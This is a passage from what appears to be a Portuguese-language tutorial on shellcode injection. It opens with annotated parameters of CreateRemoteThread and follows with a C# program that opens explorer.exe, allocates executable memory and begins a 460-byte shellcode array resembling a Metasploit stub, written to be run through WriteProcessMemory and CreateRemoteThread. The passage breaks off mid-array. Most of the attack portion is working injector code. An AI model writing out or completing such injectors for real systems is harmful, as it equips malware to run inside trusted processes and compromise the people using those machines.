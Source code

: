 ```c
	HANDLE hProcess,
	// Atributos para a nova thread criada, será utilizado 0 para aceitar os valores padrões
	LPSECURITY_ATTRIBUTES lpThreadAttributes,
	// Atributos para o tamanho da pilha, será utilizado 0 para aceitar os valores padrões
	SIZE_T dwStackSize,
	// O valor que será usado é o retorno da função "VirtualAllocEx"
	LPTHREAD_START_ROUTINE lpStartAddress,
	// Um ponteiro que receber os parâmtros que serão passados para a função
	// como não tem nenhum parâmetro, esse argumento será 0
	LPVOID lpParameter,
	DWORD dwCreationFlags,
	// Ponteiro que recebe o PID da thread criada, como isso não tem importância agora, será passado 0
	LPDWORD lpThreadId
);
```

## Injeção do shellcode em outro processo

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.InteropServices;

namespace Inject
{
    class Program
    {

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);


        static void Main(string[] args)
        {
            Process[] expProc = Process.GetProcessesByName("explorer");
            int pid = expProc[0].Id;
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);

            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

            byte[] buf = new byte[460] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
            0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
            0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
            0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,
            0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
            0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,
            0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,
```